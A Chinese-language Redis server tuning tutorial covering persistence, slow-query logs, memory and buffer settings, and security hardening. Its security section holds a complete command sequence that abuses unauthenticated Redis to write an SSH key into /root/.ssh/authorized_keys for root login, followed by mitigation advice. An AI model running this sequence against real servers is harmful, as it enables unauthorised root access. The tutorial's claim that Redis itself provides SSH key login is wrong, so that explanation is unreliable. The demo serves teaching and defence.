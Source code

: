 ### 1、服务器端优化-持久化配置

Redis的持久化虽然可以保证数据安全，但也会带来很多额外的开销，因此持久化请遵循下列建议：

* 用来做缓存的Redis实例尽量不要开启持久化功能
* 建议关闭RDB持久化功能，使用AOF持久化
* 利用脚本定期在slave节点做RDB，实现数据备份
* 设置合理的rewrite阈值，避免频繁的bgrewrite
* 配置`no-appendfsync-on-rewrite` = yes，禁止在rewrite期间做aof，避免因AOF引起的阻塞

部署有关建议：

* Redis实例的物理机要预留足够内存，应对fork和rewrite
* 单个Redis实例内存上限不要太大，例如4G或8G。可以加快fork的速度、减少主从同步、数据迁移压力
* 不要与CPU密集型应用部署在一起
* 不要与高硬盘负载应用一起部署。例如：数据库、消息队列

### 2、服务器端优化-慢查询优化

#### 2.1 什么是慢查询

并不是很慢的查询才是慢查询，而是：在Redis执行时耗时超过某个阈值的命令，称为慢查询。

慢查询的危害：由于Redis是单线程的，所以当客户端发出指令后，他们都会进入到redis底层的queue来执行，如果此时有一些慢查询的数据，就会导致大量请求阻塞，从而引起报错，所以我们需要解决慢查询问题。

![](images/server-01.png)

#### 2.2 慢查询配置

```shell
redis-cli -h 127.0.0.1 -p 6379 -a 123456

# `slowlog-log-slower-than`：慢查询阈值，单位是微秒。默认是10000，建议1000
config get slowlog-log-slower-than
# `slowlog-max-len`：慢查询日志（本质是一个队列）的长度。日志的长度有上限，默认是128，建议1000
config get slowlog-max-len
```

![](images/server-02.png)

修改这两个配置可以使用：config set 命令：

![](images/server-03.png)

#### 2.3 如何查看慢查询

知道了以上内容之后，那么咱们如何去查看慢查询日志列表呢：

* `slowlog len`：查询慢查询日志长度
* `slowlog get [n]`：读取n条慢查询日志
* `slowlog reset`：清空慢查询列表

![](images/server-04.png)

### 3、服务器端优化-命令及安全配置

Redis会绑定在0.0.0.0:6379，这样将会将Redis服务暴露到公网上，而Redis如果没有做身份认证，会出现严重的安全漏洞.
漏洞重现方式：https://cloud.tencent.com/developer/article/1039000

为什么会出现不需要密码也能够登录呢，主要是Redis考虑到每次登录都比较麻烦，
所以Redis就有一种ssh免秘钥登录的方式，生成一对公钥和私钥，私钥放在本地，公钥放在redis端，
当我们登录时服务器，再登录时候，他会去解析公钥和私钥，
如果没有问题，则不需要利用redis的登录也能访问，这种做法本身也很常见，但是这里有一个前提，前提就是公钥必须保存在服务器上，才行，
但是Redis的漏洞在于在不登录的情况下，也能把秘钥送到Linux服务器，从而产生漏洞

漏洞演示

```shell
# 运行一个redis
docker run -itd --name redis-test -p 6380:6379 registry.cn-hangzhou.aliyuncs.com/zhengqing/redis:7.0.5
docker exec -it redis-test redis-cli


# 在本地生产公私钥文件  -f 放当前目录下
ssh-keygen -t RSA -f id_rsa
# 将公钥写入文件
(echo -e "  "; cat id_rsa.pub; echo -e "  ") > ssh.txt
# 连接Redis写入文件
cat ssh.txt | redis-cli -h 192.168.0.90 -p 6380 -x set zq-ssh
redis-cli -h 192.168.0.90 -p 6380
# 查看公钥
get zq-ssh
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
# 将公钥持久化到authorized_keys文件中
save


# 连接ssh
ssh root@192.168.0.90
# 通过秘钥免密连接服务器
ssh -i id_rsa root@192.168.0.90
```

漏洞出现的核心原因：

* Redis未设置密码
* 利用了Redis的config set命令动态修改Redis配置
* 使用了Root账号权限启动Redis

避免漏洞的一些解决建议：

* Redis一定要设置密码
* 禁止线上使用下面命令：keys、flushall、flushdb、config set等命令。可以利用rename-command禁用。
* bind：限制网卡，禁止外网网卡访问
* 开启防火墙
* 不要使用Root账户启动Redis
* 尽量不是有默认的端口

#### 漏洞验证框架Pocsuite

> http://github.com/knownsec/pocsuite

执行对应代码可以用于测试目标地址是否存在未授权的Redis服务。

### 4、服务器端优化-Redis内存划分和内存配置

当Redis内存不足时，可能导致Key频繁被删除、响应时间变长、QPS不稳定等问题。当内存使用率达到90%以上时就需要我们警惕，并快速定位到内存占用的原因。

`有关碎片问题分析`

Redis底层分配并不是这个key有多大，他就会分配多大，而是有他自己的分配策略，比如8,16,20等等，假定当前key只需要10个字节，此时分配8肯定不够，那么他就会分配16个字节，多出来的6个字节就不能被使用，这就是我们常说的 碎片问题

`进程内存问题分析：`

这片内存，通常我们都可以忽略不计

`缓冲区内存问题分析：`

一般包括客户端缓冲区、AOF缓冲区、复制缓冲区等。客户端缓冲区又包括输入缓冲区和输出缓冲区两种。这部分内存占用波动较大，所以这片内存也是我们需要重点分析的内存问题。

| `内存占用` | `说明`                                                     |
| ------------ | ------------------------------------------------------------ |
| 数据内存     | 是Redis最主要的部分，存储Redis的键值信息。主要问题是BigKey问题、内存碎片问题 |
| 进程内存     | Redis主进程本身运⾏肯定需要占⽤内存，如代码、常量池等等；这部分内存⼤约⼏兆，在⼤多数⽣产环境中与Redis数据占⽤的内存相⽐可以忽略。 |
| 缓冲区内存   | 一般包括客户端缓冲区、AOF缓冲区、复制缓冲区等。客户端缓冲区又包括输入缓冲区和输出缓冲区两种。这部分内存占用波动较大，不当使用BigKey，可能导致内存溢出。 |

于是我们就需要通过一些命令，可以查看到Redis目前的内存分配状态：

* info memory：查看内存分配的情况

![](images/server-05.png)

* memory xxx：查看key的主要占用情况

![](images/server-06.png)

接下来我们看到了这些配置，最关键的缓存区内存如何定位和解决呢？

内存缓冲区常见的有三种：

* 复制缓冲区：主从复制的repl_backlog_buf，如果太小可能导致频繁的全量复制，影响性能。通过replbacklog-size来设置，默认1mb
* AOF缓冲区：AOF刷盘之前的缓存区域，AOF执行rewrite的缓冲区。无法设置容量上限
* 客户端缓冲区：分为输入缓冲区和输出缓冲区，输入缓冲区最大1G且不能设置。输出缓冲区可以设置

以上复制缓冲区和AOF缓冲区 不会有问题，最关键就是客户端缓冲区的问题

客户端缓冲区：指的就是我们发送命令时，客户端用来缓存命令的一个缓冲区，也就是我们向redis输入数据的输入端缓冲区和redis向客户端返回数据的响应缓存区，输入缓冲区最大1G且不能设置，
所以这一块我们根本不用担心，如果超过了这个空间，redis会直接断开，因为本来此时此刻就代表着redis处理不过来了，我们需要担心的就是输出端缓冲区

![](images/server-07.png)

我们在使用redis过程中，处理大量的big value，那么会导致我们的输出结果过多，如果输出缓存区过大，会导致redis直接断开，而默认配置的情况下，
其实他是没有大小的，这就比较坑了，内存可能一下子被占满，会直接导致咱们的redis断开，所以解决方案有两个

1. 设置一个大小
2. 增加我们带宽的大小，避免我们出现大量数据从而直接超过了redis的承受能力

